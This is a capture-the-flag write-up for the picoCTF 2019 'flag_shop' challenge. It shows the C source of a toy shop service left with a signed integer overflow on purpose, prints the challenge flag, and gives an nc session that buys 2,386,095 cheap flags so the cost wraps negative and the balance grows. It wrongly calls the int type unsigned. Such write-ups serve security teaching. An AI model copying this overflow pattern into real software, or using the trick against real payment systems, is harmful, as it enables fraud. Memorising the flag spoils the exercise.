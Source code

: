 
# General Skills - flag_shop (300 points)

## Challenge

*There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 60851.*

![Challenge](../_images/general_skills_flag_shop_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){

        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");

                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);

                if(bid == 1){
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}

```

## Flag

picoCTF{m0n3y_bag5_34c9a5f7}

## Walkthrough

Walking through the store, we guess that we have to buy the *1337 flags*. Guess what, we don't have enough money for this...

Looking at the store source, there is an interesting thing here :

```C
int total_cost = 0; (4 bytes / signed)
total_cost = 900*number_flags;
```

*total_cost* is defined as an *int*, i.e. a 4 bytes unsigned integer. Its value is linked to a user input: the number of flags to buy. So we can perform a nice unsigned interger overflow here, to get a negative value and so more money :)

Unsigned int values range from -2,147,483,648 to 2,147,483,647. Divided by 900, we just have to buy more than 2,386,092‬ flags to produce an integer overflow so that `account_balance - total_cost` does not overflow (else our overflow is going to cause another overflow and a negative balance...).

Let's try with 2,386,095 flags :

```bash
root@kali:~# nc 2019shell1.picoctf.com 60851
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

I'm rich !, now the flag :

```bash
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_34c9a5f7}
```
